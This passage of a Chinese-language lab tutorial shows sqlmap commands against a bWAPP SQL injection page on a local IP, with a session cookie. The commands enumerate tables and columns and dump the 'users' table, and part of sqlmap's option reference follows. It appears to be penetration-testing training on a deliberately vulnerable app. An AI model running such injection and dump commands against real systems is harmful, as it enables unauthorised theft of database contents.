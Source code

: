   ##### 获取数据库表
  ``` bash
  sqlmap -u http://192.168.36.129:3000/sqli_2.php?movie=6 --cookie="security_level=0; PHPSESSID=uovrdlujopr4jbd44p4afjavv2" -D bwapp --tables
  ```

  ##### 获取数据库表列
  ``` bash
  sqlmap -u http://192.168.36.129:3000/sqli_2.php?movie=6 --cookie="security_level=0; PHPSESSID=uovrdlujopr4jbd44p4afjavv2" -T users --columns
  ```

  ##### 获取数据库表数据
  ``` bash
  sqlmap -u http://192.168.36.129:3000/sqli_2.php?movie=6 --cookie="security_level=0; PHPSESSID=uovrdlujopr4jbd44p4afjavv2" -T users --columns --dump
  ```
  ![sqlmap](../images/20210312/sqlmap.png)
  #### SqlMap参数参考
  ```
  Options:
    -h, --help            Show basic help message and exit
    -hh                   Show advanced help message and exit
    --version             Show program's version number and exit
    -v VERBOSE            Verbosity level: 0-6 (default 1)

  Target:
    At least one of these options has to be provided to define the
    target(s)

    -u URL, --url=URL   Target URL (e.g. "http://www.site.com/vuln.php?id=1")
    -g GOOGLEDORK       Process Google dork results as target URLs

  Request:
    These options can be used to specify how to connect to the target URL

    --data=DATA         Data string to be sent through POST (e.g. "id=1")
    --cookie=COOKIE     HTTP Cookie header value (e.g. "PHPSESSID=a8d127e..")
    --random-agent      Use randomly selected HTTP User-Agent header value
  ```